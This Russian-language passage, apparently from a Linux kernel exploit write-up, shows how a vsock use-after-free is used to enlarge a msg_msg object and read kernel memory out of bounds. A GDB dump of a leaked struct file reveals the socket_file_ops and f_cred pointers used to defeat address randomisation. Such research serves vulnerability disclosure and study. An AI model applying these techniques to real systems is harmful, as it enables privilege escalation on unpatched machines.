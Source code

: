 На Ubuntu Server 24.04 с 2 ГиБ оперативной памяти `/proc/sys/fs/epoll/max_user_watches` составляет 431838, и это не так много. Получается, я мог позволить себе 8 дочерних процессов × 500 экземпляров `epoll` × 100 копий файловых дескрипторов, итого 400000 отслеживаний через `epoll` (`epoll` watches).

Однако, этого хватило, чтобы преодолеть **ограничение № 3**, и мне наконец-то удалось перезаписать размер сообщения `msg_msg`: UAF в vsock изменил `msg_msg.m_ts` с 48 байт на 8192 (`MSGMAX`). После этого я смог выполнить чтение памяти ядра за границами `msg_msg`, используя системный вызов `msgrcv()`.

## Разбираем добычу

Поврежденный `msg_msg` позволил мне прочитать 8 КиБ данных из пространства ядра. Я стал разбирать эту «добычу» и нашел полезную утечку информации: ядерный адрес `0xffffffff8233cfa0` [1]. Утечка оказалась стабильной и воспроизводилась с высокой вероятностью на каждом запуске эксплойта, поэтому я решил использовать ее без дополнительных манипуляций с кучей (heap feng shui). С помощью GDB я выяснил, что этот адрес — указатель на функцию `socket_file_ops()`, который содержится в ядерном объекте `file`. Это меня очень порадовало, потому что в `struct file` неподалеку находится указатель `f_cred` [2], который также удалось прочитать в эксплойте.

Вот как я анализировал содержимое памяти, прочитанной за границами объекта `msg_msg` по адресу `0xffff88800e75d600`:
```
gef> p *((struct file *)(0xffff88800e75d600 + 96*26 + 64))
$61 = {
  f_count = {
    counter = 0x0
  },
  f_lock = {
    {
      rlock = {
        raw_lock = {
          {
            val = {
              counter = 0x0
            },
            {
              locked = 0x0,
              pending = 0x0
            },
            {
              locked_pending = 0x0,
              tail = 0x0
            }
          }
        }
      }
    }
  },
  f_mode = 0x82e0003,
  f_op = 0xffffffff8233cfa0 <socket_file_ops>,    [1]
  f_mapping = 0xffff88800ee66f60,
  private_data = 0xffff88800ee66d80,
  f_inode = 0xffff88800ee66e00,
  f_flags = 0x2,
  f_iocb_flags = 0x0,
  f_cred = 0xffff888003b7ad00,                    [2]
  f_path = {
    mnt = 0xffff8880039cec20,
    dentry = 0xffff888005b30b40
  },
  ...
```
